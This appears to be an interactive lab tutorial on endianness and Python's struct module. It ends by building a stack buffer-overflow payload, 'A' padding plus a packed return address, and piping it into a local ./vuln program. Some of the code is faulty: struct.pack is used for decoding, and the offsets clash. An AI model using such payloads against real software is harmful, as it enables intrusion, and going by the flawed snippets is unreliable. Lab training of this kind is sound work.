 # Endianess and struct python module

The [struct python module](https://docs.python.org/3/library/struct.html#format-characters) is a formidable library to convert python values into C-structs. One of the main usage for it, is to__ interpret bytes as packed binary data__:

## Little-Endian (LE) vs. Big-Endian (BE)

> In computing, endianness is the order or sequence of bytes of a word of digital data in computer memory. Endianness is primarily expressed as big-endian or little-endian. A big-endian system stores the most significant byte of a word at the smallest memory address and the least significant byte at the largest
> [Wikipedia](https://en.wikipedia.org/wiki/Endianness)

To illustrate, let's compare Arabic vs. English books: The first is written or read from right-to-left while the other is from left-to-right! Luckily, we don't have anything from top-to-bottom and the only alphabet we got are `0s` and `1s` ... what a relief!

Let's say that we want to write the number 134517454 (base10) in computer language. A computer only understand base2 (0s and 1s) but can easily represents bytes in base16 which will translates into 0x80492ce (base 16).

| Endiannes| representation | byte written at the highest memory address |
| --- | --- | --- |
| Little | \xce\x92\x04\x08 | least significant byte |
| Big | \x08\x04\x92\xce | most significant byte |

Most CPU chips, such as Intel (market leader) have adopted Little-Endian architecture.

## Using python struct module

Let's consider the memory address 0x2131415, How will you write it in Big-Endian? in Little-Endian?

You can use the struct module to verify your response:

type `python{{execute}} to open a python console

import the struct module: `import struct`{{execute}}

According to the [struct documentation](https://docs.python.org/3/library/struct.html#format-characters):
- `I` or `i` means 4 bytes long
- `<` means Little-Endian
- `>` means Big-Endian:

We can combine:
- `<I` represents a number in 4 bytes Little-Endian representation
- `>I` represents a number in 4 bytes Big-Endian representation

In your python console:
- Print the address in Big-Endian: `struct.pack('>I', 0x2131415)`{{execute}}
- Print the address in Little-Endian: `struct.pack('<I', 0x2131415)`{{execute}}

You can also do the opposite and obtain the decimal value from an address represented in Little ot Big-Endian:
- `struct.pack('<I', '\x15\x14\x13\x02')`{{execute}} for little endian to decimal memory address
- `struct.pack('>I', '\x02\x13\x14\x15')`{{execute}} for big endian to decimal memory address

Conversion from base10 to base16 is easy: `hex(34804757)`{{execute}}

Type `quit()`{{execute}} to exit the python console or press `<CTRL>D`

## Rewrite our previous exploit with the struct module

Let's consider the below code:

```python
import struct
offset 	= 44
rip	= struct.pack('<I', 0x80491f7)
payload = 'A'*offset + rip
print(payload)
```{{copy}}

We can execute it in just one line of code: `python -c "import struct;offset=2060;rip=struct.pack('<I', 0x80491f7);payload = 'A'*offset + rip;print(payload)"`{{execute}}

Does the below exploit work?

`echo $(python -c "import struct;offset=2060;rip=struct.pack('<I', 0x80491f7);payload = 'A'*offset + rip;print(payload)") | ./vuln`{{execute}}
